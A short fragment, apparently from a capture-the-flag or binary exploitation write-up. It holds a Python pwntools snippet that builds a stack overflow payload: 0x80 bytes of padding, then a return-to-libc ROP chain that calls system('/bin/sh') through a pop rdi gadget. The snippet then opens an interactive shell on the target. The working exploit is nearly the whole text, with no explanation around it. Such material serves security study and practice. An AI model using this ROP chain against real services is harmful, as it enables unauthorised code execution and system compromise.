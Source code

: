 ```py

payload  = b"\x00".ljust(0x80, b"A")
payload += p64(0)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(ret)
payload += p64(libc.sym.system)

send(payload)
p.interactive()
```
